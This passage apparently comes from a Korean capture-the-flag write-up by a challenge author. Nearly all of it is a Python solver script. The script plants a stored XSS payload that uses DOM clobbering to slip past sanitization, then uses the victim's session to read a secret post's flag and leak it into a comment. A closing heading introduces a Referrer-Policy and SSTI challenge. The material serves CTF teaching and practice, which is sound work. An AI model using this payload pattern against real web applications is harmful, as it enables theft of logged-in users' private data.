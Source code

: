 ```python
time.sleep(0.2)

requests.get(url + f"/posts/{post_id}", headers={
    "Cookie": session
})

print(post_id)

requests.post(url + f"/posts/{post_id}/edit", data={
    "title": "exploit",
    "content": """<form name="bar" id="lmao "><input form="lmao" name="removeAttribute"></form><img src="X" onerror="fetch('/posts/', { method: 'GET', credentials: 'include' }).then(res => res.text()).then(text => { const parser = new DOMParser(); const doc = parser.parseFromString(text, 'text/html'); const postId = [...doc.querySelectorAll('a.list-group-item')].find(a => a.querySelector('h5')?.textContent.trim() === 'th1s1smy2ecreTS0C0ntentD4ta')?.getAttribute('href')?.split('/')?.pop(); return postId; }).then((post_id) => { fetch(`/posts/${post_id}/edit`, { method: 'GET', credentials: 'include' }).then((res) => res.text()).then((text) => { const parser = new DOMParser(); const doc = parser.parseFromString(text, 'text/html'); const flag = doc.querySelector('#content')?.value; return flag; }).then((flag) => { fetch(`/posts/${post_id}/edit`, { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: `title=th1s1smy2ecreTS0C0ntentD4ta&content=${flag}&isPublic=on`, credentials: 'include' }).then(() => { fetch('/posts/""" + post_id + """/comments', { method: 'POST', headers: { 'Content-Type': 'application/x-www-form-urlencoded' }, body: `content=uuid-${post_id}`, credentials: 'include' });});});});" />""",
    "isPublic": "on"
}, headers={
    "Cookie": session,
    "Content-Type": "application/x-www-form-urlencoded"
})

time.sleep(5)

exploit_res = requests.get(url + f"/posts/{post_id}", headers={
    "Cookie": session
})

flag_post_id = exploit_res.text.split("uuid-")[2].split("</p>")[0]

flag_res = requests.get(url + f"/posts/{flag_post_id}", headers={
    "Cookie": session
})

flag = unquote(flag_res.text.split('<div class="post-content">')[1].split("</div>")[0].strip())

print("[+] FLAG : ", flag)
```


## Spiderman

[Referrer-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/Reference/Headers/Referrer-Policy)와 SSTI를 컨셉으로 문제를 제작하였습니다.
